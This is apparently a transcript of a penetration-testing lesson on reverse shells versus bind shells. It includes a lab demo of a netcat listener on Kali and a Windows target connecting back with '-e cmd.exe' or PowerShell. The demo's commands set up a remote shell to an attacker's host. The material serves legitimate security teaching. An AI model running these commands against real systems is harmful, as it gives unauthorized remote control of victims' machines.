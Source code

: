 And if we just take a look at the diagram again, what we're going to do is set up a Netcat listener on the attacker's system, and then we need to find a way of getting the target system to connect to the Netcat listener. In the practical demonstration, we will be connecting to the Netcat listener in client mode. But this can be done in other ways.

A reverse shell is much better than a bind shell for the first reason. The fact that you don't need to set up a listener on the target system. Furthermore, it is better because outgoing traffic from a system is really not blocked by firewalls. And as a result, the actual chances of success when it comes down to using a reverse shell over a bind shell are much higher. These are the two advantages.

What is the issue with a reverse shell? Let's say we are able to get the target system to connect somehow to the attacker system. In order for that connection to be made, the target system needs the IP address of the attacker system, which is bad for two reasons. Number one, the exploit that you'll be using will have to find a way of getting the attacker's IP. The attacker's IP transferred over to the target system. And the other issue with that is that the attacker's IP is then leaked or made public if that particular connection is ever noted. They'll immediately be able to tell that this IP is the IP address of an attacker. So you need to keep that in mind. And, if the exploit file is currently on disk on the target system, and that file contains the attacker's IP, that's another piece of information that a security analyst will be able to obtain. And at that point, you have been discovered, even if you're utilizing a C2 or command and control server to facilitate the attack or to receive a connection from the target system. So whenever you utilize the Metasploit Framework, and you're trying to obtain a Meterpreter session, you are obtaining a reverse shell. Reverse shells are much better than bind shells and are frequently used by attackers and penetration testers.

Now that we have an understanding of what reverse shells are and their advantage over standard bind shell.

Target IP Address: 10.4.28.70

Kali Linux: 10.10.0.2

```
C:\Users\Administrator\Desktop>dir
```

In the case of a reverse shell, we need to set up the Netcat listener on the attacker system, which in this case, is Kali Linux.

Open up my terminal here.

However, in this case, because this is a reverse shell, we do not need to specify the shell that we want executed. So we can just set up the listener. And then from the target side, the target is going to be connecting to the listener on the attacker's side, so that is outgoing traffic.

```
nc -nvlp 1234
```

And we can head over into the target system, which is running Windows. And this is what we are trying to gain a reverse shell on.

We're making a connection, so we can say `-nv` for no DNS resolution and verbose output. And then we specify the attacker's IP address.

Remember, this is one of the disadvantages of this. The attacker's IP address needs to be available on the target system in order for the connection to be made.

We're connecting to the attacker's IP on port 1234. Once that is done, we can now execute on the target site, the shell that we want access, that we require or that will provide us with remote access or the ability to execute commands remotely. In this case, because the target system is a Windows system, we can say `-e` cmd.exe, or PowerShell.exe.
